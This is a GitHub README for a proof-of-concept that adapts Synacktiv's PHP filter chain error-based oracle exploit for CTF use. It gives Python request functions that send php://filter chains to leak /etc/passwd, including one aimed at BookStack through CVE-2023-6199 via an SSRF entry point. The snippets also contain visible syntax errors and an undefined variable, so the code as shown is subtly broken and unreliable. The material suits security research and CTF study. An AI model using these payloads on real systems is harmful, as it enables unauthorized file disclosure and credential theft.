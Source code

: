 # php_filter_chain_oracle_poc
## Overview

The Synacktiv team published an in-depth research article, *[PHP Filter Chains: File Read from Error-Based Oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle)*, initially disclosed at DownUnder CTF 2022. This research was based on a challenge by `@hash_kitten`, where players were tasked with leaking the `/flag` file from a vulnerable PHP-based infrastructure using **error-based oracles**.

Rather than diving into the deep technical internals (which can be reviewed in the **PoC comments**), this guide presents a **Procedural-Oriented Programming (POP) adaptation** of Synacktiv’s original Object-Oriented Programming (OOP) exploit [(available here)](https://github.com/synacktiv/php_filter_chains_oracle_exploit).

This POP-based approach makes it easier to understand the attack’s step-by-step execution, allowing for **customization of key parameters** when adapting the exploit with just one script, especially for CTF challenges.

- This repository includes two Proof-of-Concept (PoC) scripts:
  - **`poc.py`** – The **standard version**, structured with wrapped functions that cleanly separate each phase of the exploit.
  - **`poc_procedure.py`** – A **more procedure-oriented** approach, specifically designed for **CTF scenarios**, allowing step-by-step customization of the exploitation process.

## Scenarios

PHP filter chain exploits typically require the following attack primitives for **Arbitrary File Read**:

### 1. LFR via SSRF

- **Objective:** Exploiting Server-Side Request Forgery (SSRF), so that we can interact with the server using URLs and PHP stream wrappers (`php://filter`).
- **Example:** CVE-2023-6199 in [BookStack](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/) demonstrates **Local File Read (LFR) via SSRF**.

### 2. Oracle Recovery 

- **Objective:** Capture server responses from oracle-based exploits.
- **Tooling:** Wireshark, tcpdump, or BurpSuite to inspect HTTP responses.
- **Example:** A classic CTF challenge demonstrating this method is available [here](https://github.com/4xura/Bianry4CTF/blob/main/Labyrinth/misc/misc_php_filter_chain_oracle.zip).

## Using the PoC

Before executing the PoC, you need to **customize the `req()` function** to define how the exploit interacts with the target server. Because the specific request method (GET/POST/other) and SSRF entry point will vary depending on the scenario.

A basic example: sending the filter chain via a GET request:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
    
    import requests
    url     = f'http://example.com/ssrf.php?url={chain}'
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Cookie"    : "sessionid=abcdefg123456",
    }
    response = requests.get(url=url, headers=headers=headers)
    
    """
    We send the requests and verify the responses
    If status_code == 200, returns False and stop brute forcing, 
    while we should continue when the server returns 500 (True)
    """
    return response.status_code == 500
```

To exploit [CVE-2023-6199](https://nvd.nist.gov/vuln/detail/CVE-2023-6199), the `req()` function can be defined for example:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
    
    # Base64 encode the filter embedded inside an <img> tag 
    import base64
    chain_b64 = base64.b64encode(chain.encode("ascii")).decode("ascii")
    html = f"<img src='data:image/png;base64,{chain_b64}'/>"  
	
    # Send PUT requests to BookStack server 
    import requests
    target = 'https://bookstack.example.com/ajax/page/8/save-draft'
    headers = {
        "User-Agent"	: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "X_CSRF_TOKEN"	: "abcdefghijklmn...",
        "Content-Type"	: "application/x-www-form-urlencoded"
        "Cookie"    	: "sessionid=abcdefg123456...",
    }
    data = {
        "name":"axura", 
        "html": html,
    }
    try:
        response = session.put(
                target,
                data=data,
            )       
    	return response.status_code == 500
    
    except requests.exceptions.ConnectionError::
        print("[-] Could not instantiate a connection")
        exit(1)
```

Once the `req()` function is properly configured, simply execute the script with:

```sh
python3 poc.py
```

If something went wrong (which is possible due to special request data conversion, base64 output filtering logic, or unexpected server responses), use the comments in the scripts to debug the exploit process.
